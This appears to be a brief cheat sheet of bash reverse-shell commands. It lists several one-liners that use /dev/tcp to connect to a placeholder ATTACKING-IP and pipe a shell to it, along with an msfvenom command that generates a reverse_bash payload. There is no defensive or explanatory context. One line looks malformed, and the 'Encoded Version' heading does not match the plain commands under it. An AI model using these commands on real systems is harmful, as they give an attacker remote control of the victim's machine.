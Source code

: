### Version one
```
exec /bin/bash 0&0 2>&0
```

### Encoded Version
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done
```
  
```
# or:
while read line 0<&5; do $line 2>&5 >&5; done
```

### Version two
```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

### MSFVenom Bash Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.sh
```



